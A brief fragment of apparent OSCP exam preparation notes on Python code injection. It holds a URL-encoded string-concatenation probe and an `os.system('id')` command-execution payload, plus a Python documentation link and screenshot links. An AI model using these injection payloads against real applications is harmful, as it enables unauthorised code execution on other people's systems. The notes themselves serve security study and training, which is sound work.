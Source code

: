 ```
`"%2bstr(True)%2b"test`
```

[Built-in Types &#8212; Python 3.11.5 documentation](https://docs.python.org/3/library/stdtypes.html#str)

```
os.system('id')
```

![image](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/8db48e07-c8f3-46ef-8c76-00047fcb8400)


